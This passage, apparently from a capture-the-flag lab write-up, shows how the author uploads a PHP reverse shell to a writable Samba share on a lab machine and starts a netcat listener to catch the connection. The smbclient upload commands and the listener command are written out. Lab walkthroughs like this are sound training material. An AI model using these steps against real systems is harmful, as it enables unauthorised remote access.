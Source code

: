 ![image](assets/81484289-67659a80-9212-11ea-933a-6b7c2da52498.png)

I had read/write access to the "Development" share as shown by the output of the smbmap command. That meant I could write a reverse shell to that share and access it via the pagename parameter. 

I copied a php reverse shell file into my working directed, updated the port and IP, and copied it to the Development share.

```
cp ~/tools/webshells/php/php-reverse-shell.php rshell.php
vim rshell.php # add port and ip
smbclient //10.10.10.123/Development
put rshell.php
```

I started a netcat listener on port 4200

```
netcat -lvnp 4200
```

Also in the smbmap output; The comment shown for the "Files" folder was "FriendZone Samba Server Files /etc/Files". After putting two and two together I guessed that the Development share was probably located similarly at /etc/Development.
